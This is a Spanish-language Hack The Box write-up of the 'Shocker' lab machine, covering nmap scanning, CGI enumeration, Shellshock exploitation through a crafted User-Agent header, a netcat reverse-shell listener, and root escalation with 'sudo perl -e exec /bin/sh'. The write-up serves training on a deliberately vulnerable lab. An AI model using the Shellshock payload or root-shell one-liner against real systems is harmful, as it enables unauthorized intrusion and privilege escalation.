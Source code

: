 ```yaml
---
title: Shocker - HTB Writeup
date: 2023-09-06 16:00:00 +0800
categories: [Ciberseguridad, Writeups, HTB]
tags: [Writeup]
image:
  path: /assets/img/post/shocker/adi-goldstein-EUsVwEOsblE-unsplash.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
---
```


Shocker es un máquina de dificultad ```Easy``` en la plataforma **Hack The Box**

Esta máquina me resulta muy interesante ya que es la primera vez que voy a tocar el exploit ```Shellshock```

## **Reconocimiento**

Comenzamos con un escaneo de puertos utilizando ```nmap```:

```bash
nmap -p- -sS --min-rate 5000 -vvv -n -Pn 10.10.10.56 -oG allPorts
```

![img](/assets/img/post/shocker/626f4269-71bd-4a1b-a55e-c2b827453f41.png)

Encontramos los puertos ```80``` y ```2222``` abiertos, vamos a ver que **servicios** se ejecutan en dichos puertos:

```bash
nmap -sCV -p80,2222 10.10.10.56 -oN versions
```

![img](/assets/img/post/shocker/7e3b09ac-648b-4229-b80d-2c105154baed.png)

Vemos que en el puerto ```80``` hay un servicio ```Apache``` y en el ```2222``` hay un servicio ```OpenSSH```

Vamos a ver el puerto ```80```, a ver que encontramos:

![img](/assets/img/post/shocker/1f0f0165-25ee-41ae-8baf-7b3b786a9068.png)

No encontramos nada, por lo que vamos a seguir con la **fase de reconocimiento**, a ver si podemos listar algun **directorio o archivo interesante**:

![img](/assets/img/post/shocker/c24da344-a70e-43f5-a53a-404137e1c77a.png)

Encontramos un directorio ```cgi-bin```, el cual suele tener cosas interesantes

Si volvemos a enumerar directorios desde esta ruta, nos encontraremos un archivo ```user.sh```, el cual al acceder a la ruta junto al archivo, nos hará la descarga automaticamente, lo descargaremos para ver que contiene:

![img](/assets/img/post/shocker/eb179a12-d186-4a41-b0f0-acd32adf742e.png)

Vemos que es un archivo que al ejecutarlo, guarda la hora en la que se ha ejecutado

Si buscamos información podemos encontrar que los archivos ```CGI``` suelen ser usados para explotar ```Shellshock```, así que vamos a realizar la **explotación**

## **Explotación**

Podemos ver en este [repositorio](https://github.com/opsxcq/exploit-CVE-2014-6271) como poder explotar ```Shellshock``` desde consola, nosotros lo haremos desde **Burpsuite**, aunque al final el resultado es el mismo

Primero vamos a ver si podemos ejecutar el ```Shellshock```

```bash
user-agent: () { :; }; echo; echo; /bin/bash -c 'id'"
```

![img](/assets/img/post/shocker/a287c41c-c780-42bb-b2f0-12015947b21b.png)

Como podemos ver, podemos inyectar comandos en el ```User-Agent```, vamos a conseguir una ```reverse shell```, con el oneline que usamos siempre para ello:

```bash
nc -lvnp 443
```

![img](/assets/img/post/shocker/3f8fb66f-9696-4160-8938-e07203953664.png)

Si nos ponemos en escucha con ```nc``` por el puerto indicado, conseguiremos **acceso al sistema** y a la **user flag**

![img](/assets/img/post/shocker/fb2428ff-0267-4e82-a421-4e9e9fdae12b.png)

## **Escalada de Privilegios**

Vamos a hacer un pequeño **reconocimiento**, para ver de que manera podemos escalar privilegios

Ejecutando ```sudo -l``` podemos ver que binarios podemos ejecutar como ```root```:

![img](/assets/img/post/shocker/06d78087-6e38-4455-b2dd-91e65d6dbb54.png)

Como vemos podemos ejecutar como ```root``` el binario ```perl```

Por lo tanto vamos a consultar [GTFOBins](https://gtfobins.github.io/) para buscar informacion sobre el binario ```perl```

> GTFOBins es un recurso web que nos ayudará muchísimo

Siguiendo los pasos de la web ejecutaremos:

```bash
sudo perl -e 'exec "/bin/sh";'
```

![img](/assets/img/post/shocker/3e8fa848-ab6e-4e04-b9d1-cd40fe6b7c32.png)

Y Bingo! Conseguiremos **acceso** a la máquina como el usuario ```root```, y por tanto tambien a la **root flag**

![img](/assets/img/post/shocker/9b6268d5-3382-4ca6-b470-c96c5f9acfc6.png)

*Espero que os haya gustado y servido, cualquier comentario es de mucha ayuda. Adios!*

